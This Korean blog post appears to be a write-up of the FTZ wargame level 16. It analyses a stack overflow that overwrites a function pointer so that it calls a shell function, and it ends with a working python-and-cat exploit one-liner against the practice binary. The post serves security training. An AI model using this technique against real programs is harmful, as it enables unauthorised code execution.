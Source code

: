 ```yaml
---
title:  "[FTZ] level 16"

categories: ftz
tags: [ftz]

toc: true
toc_sticky: true

date: 2021-12-19 17:27:30

---
```


# level 16

**level16 / about to cause mass**

힌트

![image](https://user-images.githubusercontent.com/69203345/146673456-096dc3bd-6ed3-4943-946c-e73af05bc1dd.png)

buf에 20바이트 할당  
20바이트 buf에 최대 48바이트 까지 입력을 받고 call을 함

printit 함수를 호출할때 사용되는 포이터 call 변수를 shell함수로 호출하도록 해주면 됨

![image](https://user-images.githubusercontent.com/69203345/146673622-45c63128-c883-43c6-a12e-76880790a06c.png)

0x0804851e <main+6>: mov    DWORD PTR [ebp-16], 0x8048500
[ebp-16]에 0x8048500을 넣음

[ebp-56]에 입력을 받음

printit의 시작 주소 확인  
![image](https://user-images.githubusercontent.com/69203345/146673870-aac60acd-72ce-40b0-beba-ecc7d3109579.png)

[ebp-16]이 printit의 주소 인것을 확인

shell의 시작 주소 확인  
![image](https://user-images.githubusercontent.com/69203345/146677677-eb9db917-238d-42eb-8228-9f530624cefb.png)

[ebp-16]의 pritnit의 주소를 shell의 주소로 바꿔주면 될것

낮은주소 

buf[20] [ebp-56]  
dummy[20]  
*call[4] [ebp-16]  
crap[4]+dummy[8]  
sfp[4]  
ret[4]

높은주소

아마 이럴것이라고 생각된다

shell의 시작주소는 0x080484d0이기때문에  
>(python -c 'print "A"*40+"\xd0\x84\x04\x08"'; cat) | ./attackme

![image](https://user-images.githubusercontent.com/69203345/146678790-ec27d64e-5b6e-4ded-b696-8aba3911e02a.png)

